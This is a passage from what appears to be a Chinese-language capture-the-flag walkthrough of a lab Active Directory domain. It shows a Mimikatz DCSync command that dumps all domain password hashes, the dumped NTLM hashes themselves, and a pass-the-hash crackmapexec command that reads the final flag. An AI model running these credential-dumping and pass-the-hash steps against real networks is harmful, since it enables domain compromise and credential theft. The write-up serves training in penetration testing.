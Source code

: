![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112121045-qmbybnn.png?imageSlim)​

成功拿到shell，开始横向

```bash
load kiwi
kiwi_cmd lsadump::dcsync /domain:xiaorang.lab /all /csv
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112121723-1vp21xi.png?imageSlim)​

导出hash

```bash
[DC] 'xiaorang.lab' will be the domain
[DC] 'DC01.xiaorang.lab' will be the DC server
[DC] Exporting domain 'xiaorang.lab'
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)
502     krbtgt  fb812eea13a18b7fcdb8e6d67ddc205b        514
1106    Marcus  e07510a4284b3c97c8e7dee970918c5c        512
1107    Charles f6a9881cd5ae709abb4ac9ab87f24617        512
500     Administrator   10cf89a850fb1cdbe6bb432b859164c8        512
1000    DC01$   d75bd2d4524fcaee3946250f675aebf7        532480
1108    XIAORANG-WIN7$  8b7dea43bed4b560504e925f0f1b5efd        4096
1104    XIAORANG-OA01$  fd2dbb99c526e5969d540669a099d158        4096
```

hash传递，拿flag

```bash
proxychains crackmapexec smb 172.22.1.2 -u administrator -H10cf89a850fb1cdbe6bb432b859164c8 -d xiaorang.lab -x "type Users\Administrator\flag\flag03.txt"
```

![image](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20250112121505-z7e94uy.png?imageSlim)​

### flag03

e8f88d0d43d6}

最终的flag

```bash
flag{60b53231-2ce3-4813-87d4-e8f88d0d43d6}
```

